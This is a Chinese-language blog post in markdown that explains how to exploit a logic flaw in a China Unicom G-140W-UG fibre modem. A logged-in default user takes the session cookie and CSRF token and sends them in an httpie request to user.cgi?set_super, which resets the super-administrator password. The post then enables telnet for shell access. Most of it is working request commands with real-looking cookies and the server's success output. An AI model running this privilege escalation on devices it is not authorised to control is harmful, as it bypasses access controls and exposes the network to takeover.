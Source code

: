 ```yaml
---
title: 联通 G-140W-UG 光猫管理员密码
date: 2022-08-30
tags: [networking, hack]
---
```


# 利用逻辑漏洞重设超级管理员密码

首先使用光猫默认用户登录(用户名和密码在光猫底部贴纸上)，然后从浏览器开发人员工具复制 Cookie：

```
Cookie: lsid=NZFrDLysprLjJKHU; lang=chs; sid=gkXdVRffiwhKzDhI
```

下面的步骤需要安装 `httpie`, 读者亦可自行将下面的命令翻译成对应的 `curl` 命令。

执行下面的命令来获取 `csrf_token`

```sh
http 192.168.1.1/user.cgi 'Cookie: lsid=LztHASdNNYtwxHVp; lang=chs; sid=SuTqIMDGFNSwjFVU' | grep csrf_token 
```

在输出中可以找到 `csrf_token`.

```js
                    settings.data = 'csrf_token=NKnoyiroxbYTHiLd';
                    if (settings.data.indexOf("csrf_token") < 0)
                        settings.data += '&csrf_token=NKnoyiroxbYTHiLd'
        $("form").prepend('<input type="hidden" name="csrf_token" value="NKnoyiroxbYTHiLd" />');
```

然后执行下面的命令来设置光猫超级管理员密码：

```sh
http -f '192.168.1.1/user.cgi?set_super' pswdNewSuper=新的管理员密码 pswdConfirmSuper=新的管理员密码 csrf_token=上面的csrf_token '你的Cookie'
```

将上述变量都带进去之后，命令会像下面这样：（注意：不要设置像 12345678 这样的弱密码）

```sh
http -f '192.168.1.1/user.cgi?set_super' pswdNewSuper=12345678 pswdConfirmSuper=12345678 csrf_token=NKnoyiroxbYTHiLd 'Cookie: lsid=LztHASdNNYtwxHVp; lang=chs; sid=SuTqIMDGFNSwjFVU'
```

最后返回结果应该包含设置成功的消息。

```http
HTTP/1.0 200 OK
Cache-Control: private,max-age=0;
Content-Security-Policy: default-src 'self' 'unsafe-inline' 'unsafe-eval'
Content-type: text/html;charset=UTF-8;
Strict-Transport-Security: max-age=2592000; includeSubdomains
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block

{
    "err": "unknown error",
    "msg": "设置成功",
    "ret": 0
}
```

如果你没有看到设置成功的消息，而是 `302 Found` 的话，大概率是你的 Cookie 过期了，请重新登录光猫，获取新的 Cookie。

# 开启 telnet

前往光猫登录页面，使用刚才重设的密码登录管理员账户。

然后在浏览器中打开 `http://192.168.1.1/system.cgi?telnet` 这个页面，可以点击开启按钮来启用 telnet.

然后便可以 `telnet 192.168.1.1` 连进光猫愉快的玩耍了！